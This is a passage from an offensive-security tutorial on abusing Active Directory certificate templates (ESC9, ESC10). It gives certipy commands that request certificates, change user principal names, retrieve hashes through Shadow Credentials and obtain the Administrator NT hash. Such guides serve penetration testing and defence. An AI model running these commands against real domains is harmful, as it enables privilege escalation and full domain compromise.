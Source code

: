 Following this, the `ESC9` certificate template, marked vulnerable, is requested as `Jane`:

```bash
certipy req -username jane@corp.local -hashes <hash> -ca corp-DC-CA -template ESC9
```

It's noted that the certificate's `userPrincipalName` reflects `Administrator`, devoid of any “object SID”.

`Jane`'s `userPrincipalName` is then reverted to her original, `Jane@corp.local`:

```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Jane@corp.local
```

Attempting authentication with the issued certificate now yields the NT hash of `Administrator@corp.local`. The command must include `-domain <domain>` due to the certificate's lack of domain specification:

```bash
certipy auth -pfx adminitrator.pfx -domain corp.local
```

## Weak Certificate Mappings - ESC10

### Explanation

Two registry key values on the domain controller are referred to by ESC10:

* The default value for `CertificateMappingMethods` under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\Schannel` is `0x18` (`0x8 | 0x10`), previously set to `0x1F`.
* The default setting for `StrongCertificateBindingEnforcement` under `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc` is `1`, previously `0`.

**Case 1**

When `StrongCertificateBindingEnforcement` is configured as `0`.

**Case 2**

If `CertificateMappingMethods` includes the `UPN` bit (`0x4`).

### Abuse Case 1

With `StrongCertificateBindingEnforcement` configured as `0`, an account A with `GenericWrite` permissions can be exploited to compromise any account B.

For instance, having `GenericWrite` permissions over `Jane@corp.local`, an attacker aims to compromise `Administrator@corp.local`. The procedure mirrors ESC9, allowing any certificate template to be utilized.

Initially, `Jane`'s hash is retrieved using Shadow Credentials, exploiting the `GenericWrite`.

```bash
certipy shadow autho -username John@corp.local -p Passw0rd! -a Jane
```

Subsequently, `Jane`'s `userPrincipalName` is altered to `Administrator`, deliberately omitting the `@corp.local` portion to avoid a constraint violation.
